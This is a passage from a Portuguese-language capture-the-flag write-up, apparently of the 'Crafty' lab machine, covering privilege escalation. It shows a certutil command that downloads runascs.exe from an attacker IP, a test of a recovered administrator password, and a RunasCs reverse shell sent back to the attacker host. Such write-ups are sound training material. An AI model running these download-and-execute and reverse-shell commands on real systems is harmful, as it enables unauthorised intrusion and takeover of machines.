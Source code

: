 ```shell
            \---core
                |   Rcon.class
                |   RconPacket.class
                |   
                \---ex
                        AuthenticationException.class
                        MalformedPacketException.class
```
{: .nolineno }         

## **Escalação Privilégio**

Alguns type depois suspeitei que isso fosse uma senha.
![alt text](/assets/img/crafty/crafty6.png)

Download do runascs.exe e execução de comando whoami, pra testar se é a senha de admin mesmo.

```shell
c:\Users\svc_minecraft\Documents>certutil -f -urlcache http://10.10.14.126/runascs.exe run.exe
certutil -f -urlcache http://10.10.14.126/runascs.exe run.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
c:\Users\svc_minecraft\Documents>run.exe administrator s67u84zKq8IXw "cmd /c whoami" 
run.exe administrator s67u84zKq8IXw "cmd /c whoami" 

crafty\administrator
```
{: .nolineno }
Confirmado que é a senha do admin, executei uma reverse shell com runascs.exe

`c:\Users\svc_minecraft\Documents>run.exe administrator s67u84zKq8IXw cmd.exe -r 10.10.14:126:4446`